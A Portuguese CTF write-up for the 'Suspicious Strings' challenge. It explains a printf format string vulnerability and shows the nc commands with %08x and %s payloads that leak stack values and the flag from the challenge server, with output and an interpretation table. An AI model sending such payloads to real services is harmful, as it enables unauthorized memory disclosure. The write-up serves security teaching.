



# **PWN**

**Autor**: Hakal  
**Desafio**: Suspicious Strings
**Nível**: Fácil  

---

## **1. Introdução**

Neste write-up, documentaremos a exploração de uma vulnerabilidade de **format string** presente em um binário, fornecido pelo Chapéu de Palha Hacker Club. O objetivo desta exploração foi extrair uma flag diretamente da memória do programa utilizando técnicas de ataques de format string. A exploração foi realizada de forma sistemática, avançando passo a passo pela memória do programa até encontrar a string desejada.

---

## **2. Análise do Código Vulnerável**

O binário em questão apresentava uma falha clássica de segurança em que o usuário pode inserir uma string de formato diretamente na função `printf` sem sanitização. Isso permite que o usuário injete especificadores de formato para manipular a saída e acessar valores armazenados na pilha.

O código vulnerável é o seguinte:

```c
fgets(msg, 300, stdin);   // Lê até 300 caracteres do stdin e armazena em msg
printf(msg);              // Imprime msg diretamente, sem especificador de formato
```

Ao permitir que o usuário controle o argumento da função `printf`, o programa torna-se suscetível a ataques que podem acessar ou modificar dados na memória.

---

## **3. Exploração da Pilha com Format String**

O objetivo desta exploração é **ler valores da pilha** e, eventualmente, encontrar a flag armazenada na memória.

### **Passo 1: Verificando os valores na pilha com %x**

O primeiro passo foi explorar a pilha utilizando o especificador `%08x`, que lê valores de 4 bytes da pilha e os exibe em formato hexadecimal. Com isso, conseguimos inspecionar valores na memória.

Executamos o seguinte comando:

```bash
echo -e '%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x' | nc suspicious-strings.chapeudepalhahacker.club 62345
```

**Saída:**




---

### **Passo 2: Acessando strings na memória com %s**

Depois de ler os valores da pilha, a próxima etapa foi tentar acessar uma **string** que poderia estar armazenada na memória. Para isso, utilizamos o especificador `%s`, que tenta interpretar um valor na pilha como um ponteiro para uma string.

Utilizamos o seguinte comando:

```bash
echo -e '%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%s' | nc suspicious-strings.chapeudepalhahacker.club 62345
```

**Saída:**

```
ae78a4d1.fbad2088.51875b2f.ae78a500.00000000.35ebe238.00c00000.00010000.ae7892a0.flag{f0rm4t_str1ng_1s_4w3s0m3}
```

**Análise:**

- Os primeiros valores (`ae78a4d1`, `fbad2088`, etc.) são dados que continuam sendo lidos da pilha.
- O valor mais importante é o último: `ae7892a0`. Esse valor representa um **ponteiro** que aponta para uma string armazenada na memória.
- O especificador `%s` utilizou esse ponteiro para acessar e exibir o conteúdo da memória. A string recuperada foi a **flag**: `flag{f0rm4t_str1ng_1s_4w3s0m3}`.



---

## **4. Interpretação dos Valores da Pilha**

### **Detalhamento dos valores lidos:**

| Posição na pilha | Valor Lido       | Interpretação                        |
|------------------|------------------|--------------------------------------|
| [Posição 0]      | ae78a4d1         | Endereço ou valor temporário na pilha         |
| [Posição 1]      | fbad2088         | Possivelmente parte de uma estrutura de controle de I/O (como `FILE`) |
| [Posição 2]      | 51875b2f         | Outro valor temporário ou ponteiro |
| [Posição 3]      | ae78a500         | Valor armazenado na pilha, provavelmente um ponteiro ou variável local |
| [Posição 4]      | 00000000         | Valor nulo, frequentemente usado como delimitador ou ponteiro nulo |
| [Posição 5]      | 35ebe238         | Outro endereço temporário armazenado na pilha |
| [Posição 6]      | 00c00000         | Possivelmente um valor relacionado à alocação de memória |
| [Posição 7]      | 00010000         | Valor constante utilizado pelo programa |
| [Posição 8]      | ae7892a0         | **Ponteiro para a string da flag** armazenada na memória |
| [Posição 9]      | flag{f0rm4t_str1ng_1s_4w3s0m3} | **Flag recuperada utilizando %s** |

### **Resumo**:

- O uso de `%08x` nos permitiu "andar" pela pilha e ler valores armazenados no stack frame do programa.
- Ao utilizar `%s`, conseguimos acessar um endereço que apontava para a **flag**, armazenada na memória do programa. Esse endereço foi encontrado na posição 8 da pilha.



---

## **5. Conclusão – Passo a Passo para Exploração**

Aqui está o processo passo a passo que foi seguido para explorar a vulnerabilidade de **format string** e extrair a flag:

### **Passo 1: Identificação da vulnerabilidade**

O código vulnerável permitia a execução de ataques de format string, permitindo que o atacante inserisse especificadores de formato não sanitizados.

### **Passo 2: Inspeção da pilha**

Com o uso do especificador `%08x`, foi possível ler valores da pilha e identificar variáveis e ponteiros temporários.

### **Passo 3: Extração da flag com %s**

Após navegar pela pilha, utilizamos o especificador `%s` para ler uma string armazenada na memória, que acabou sendo a flag do desafio.
